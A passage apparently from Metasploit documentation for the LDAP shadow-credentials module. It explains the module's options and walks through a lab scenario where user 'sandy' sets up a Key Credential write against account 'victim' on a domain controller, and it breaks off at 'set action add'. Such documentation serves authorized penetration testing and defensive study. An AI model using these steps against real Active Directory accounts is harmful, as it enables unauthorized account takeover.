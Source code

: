 ### TARGET_USER
The user (or computer) account being targeted. This is the object whose Key Credential property is the target of the ACTION
(read, write, etc.). The authenticated user must have the appropriate access to this object.

### DEVICE_ID
The certificate ID to delete when using the `REMOVE` action. You can retrieve Certificate IDs for a user account by using the `LIST` action.

## Scenarios

### Window Server 2022 Domain Controller, Targeting user account

In the following example the user `MSF\sandy` has write access to the user account `victim`. We will start the attack using the `admin/ldap/shadow_credentials` module.

```msf
msf6 auxiliary(admin/ldap/shadow_credentials) > show options

Module options (auxiliary/admin/ldap/shadow_credentials):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DOMAIN                            no        The domain to authenticate to
   PASSWORD                          no        The password to authenticate with
   REQUIRE_SIGNING  true             yes       Use signed and encrypted LDAP
   RHOSTS                            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT            389              yes       The target port
   SSL              false            no        Enable SSL on the LDAP connection
   TARGET_USER                       yes       The target to write to
   USERNAME                          no        The username to authenticate with


   When ACTION is REMOVE:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEVICE_ID                   no        The specific certificate ID to operate on


Auxiliary action:

   Name  Description
   ----  -----------
   LIST  Read all credentials associated with the account



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/ldap/shadow_credentials) > set rhosts 20.92.148.129
rhosts => 20.92.148.129
msf6 auxiliary(admin/ldap/shadow_credentials) > set domain MSF.LOCAL
domain => MSF.LOCAL
msf6 auxiliary(admin/ldap/shadow_credentials) > set username sandy
username => sandy
msf6 auxiliary(admin/ldap/shadow_credentials) > set password Password1!
password => Password1!
msf6 auxiliary(admin/ldap/shadow_credentials) > set target_user victim
target_user => victim
msf6 auxiliary(admin/ldap/shadow_credentials) > set action add
```